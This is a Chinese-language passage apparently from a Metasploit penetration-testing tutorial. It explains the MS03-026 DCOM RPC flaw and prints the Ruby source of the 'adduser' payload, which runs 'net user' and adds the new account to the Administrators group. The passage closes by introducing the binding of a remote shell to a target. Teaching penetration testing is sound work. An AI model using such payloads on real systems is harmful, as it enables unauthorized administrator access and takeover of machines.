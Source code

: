 RPC 的一部分存在漏洞，该漏洞涉及通过 TCP/IP 进行消息交换。失败是因为对畸形消息的处理不正确。这种特定的漏洞影响具有 RPC 的**分布式组件对象模型（DCOM）**接口，该接口监听 RPC 启用的端口。因此，目标机器必须具有运行 RPC 服务的可用端口。

此接口处理由客户机发送到服务器的 DCOM 对象激活请求。成功利用此漏洞的攻击者将能够以受影响系统上的本地系统特权运行代码。攻击者将能够在系统上执行任何操作。这包括安装程序、查看/更改/删除数据或创建具有完全特权的新帐户。

有关此漏洞的更多详细信息，您可以访问以下链接到 Microsoft 安全公告：

[`technet.microsoft.com/en-us/security/bulletin/ms03-026`](http://technet.microsoft.com/en-us/security/bulletin/ms03-026)

现在，为了了解`adduser`有效载荷的工作原理，我们将分析有效载荷的 ruby 代码。让我们浏览到有效载荷位置：

```
root@bt:~# cd /pentest/exploits/framework3/modules/payloads/singles/windows
root@bt:/pentest/exploits/framework3/modules/payloads/singles/windows# less adduser.rb 
```

我们感兴趣的代码部分如下：

```
# Register command execution options
register_options(
[
OptString.new('USER', [ true, "The username to create", "metasploit" ]),
OptString.new('PASS', [ true, "The password for this user", "metasploit" ]),
], self.class)
# Hide the CMD option
deregister_options('CMD')
end
#
# Override the exec command string
#
def command_string
user = datastore['USER'] || 'metasploit'
pass = datastore['PASS'] || ''
if(pass.length > 14)
raise ArgumentError, "Password for the adduser payload must be 14 characters or less"
end
return "cmd.exe /c net user #{user} #{pass} /ADD && " +
"net localgroup Administrators #{user} /ADD"
end

```

通过添加`#`符号的注释，您可以理解代码。代码简单且自解释。首先注册用户名和密码的值。然后，它继续隐藏`CMD`函数，以防止在目标屏幕上出现，同时执行有效载荷。然后，代码覆盖`windows/exec`有效载荷以传递参数值并启动一个隐秘的命令提示符在后台执行。

你可以玩弄代码并进行自己的更改。这将帮助你深入了解有效载荷的世界。

# 将一个 shell 绑定到目标以进行远程访问

在上一篇文章中，我们分析了如何利用 Windows SP2 机器并添加一个新用户账户。但是在执行利用后连接立即终止。在这篇文章中，我们将向前迈进一步，将一个 shell 绑定到目标上，以便我们可以建立远程连接并控制目标。这个过程与上一篇文章中提到的类似。我们所要做的就是使用一个不同的有效载荷，可以在目标机器上为我们启动一个 shell。

## 准备工作
